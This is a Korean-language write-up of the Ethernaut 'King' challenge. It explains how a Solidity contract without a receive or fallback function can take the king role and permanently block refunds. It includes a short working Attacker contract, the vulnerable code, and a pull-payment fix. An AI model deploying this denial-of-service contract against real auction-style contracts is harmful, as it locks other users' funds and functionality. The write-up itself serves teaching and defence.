

# [Ethernaut] 09-King

## 취약점 요약
이번 문제는 컨트랙트에 이전 prize보다 많은 eth를 보내면  
이전 king에게 eth를 환불 해준 뒤 새로운 king을 컨트랙트에 등록하는 구조입니다.  

해당 문제의 컨트랙트에 eth를 보낼 때 eoa를 사용하면 환불에 문제가 없지만  
eth 환불을 거절하는 컨트랙트를 만들고서 king 권한을 얻는다면  
앞으로 누가 얼마나 많은 eth를 보내던 영영 king 권한을 탈취 할 수 없게 됩니다.  

## 사전 지식
1. **receive(), fallback() 미구현 시 ETH 수신 실패**:  
컨트랙트에 receive(), fallback() 함수를 구현하지 않았을 때  
calldata 없이 순수 eth만 전송하는 호출은 실행 할 코드를 찾지 못하기에  
자동으로 호출 실패하게 됩니다.

<small>
이번 문제는 위와 같은 동작을 일부러 일으켜서 컨트랙트를 잠궈버리는게 목적입니다!
</small>  

## 취약 코드
```solidity
    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }
```

## 원인 분석
### **외부 호출 실패가 로직 전체를 마비**  
- receive() 함수는 eth를 기존 prize보다 더 많이 보낸 경우  
이전 king에게 환불해주고 새로운 king을 컨트랙트에 등록합니다.  

- 문제는 king이 컨트랙트로 등록되어 있는 경우에 발생합니다.  
```solidity
payable(king).transfer(msg.value);
```
- 해당 코드는 calldata 없이 eth만 송금하는 로직입니다.  
위에서 설명했듯이 해당 로직은 컨트랙트에 receive(), fallback() 함수가 정의 되어 있지 않은 경우  
실행할 코드를 찾지 못하기에 revert 됩니다.

- 따라서 컨트랙트에 receive, fallback 함수를 정의하지 않고  
문제 컨트랙트에 eth를 보낼경우 클리어 조건인  
king 권한 탈취 뒤 영구적으로 해당 권한 유지하기를 달성할 수 있습니다.

## 익스플로잇 로직

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {
    address payable public king;

    constructor(address payable _king) {
        king = _king;
    }

    function attack() external payable {
        (bool sent, ) = king.call{value: msg.value}("");
        require(sent, "attack failed");
    }
}
```

**flag!**  


## 수정 방안
```solidity
    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
            // 강제 전송에서 prize 장부에 기록한 뒤 직접 환불해가는 구조로 변경
        balances[king] += prize;
        king = msg.sender;
        prize = msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        balances[msg.sender] = 0;
        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "withdraw failed");
    }
```

## CWE 분류
- **CWE-703 (Improper Check or Handling of Exceptional Conditions)**
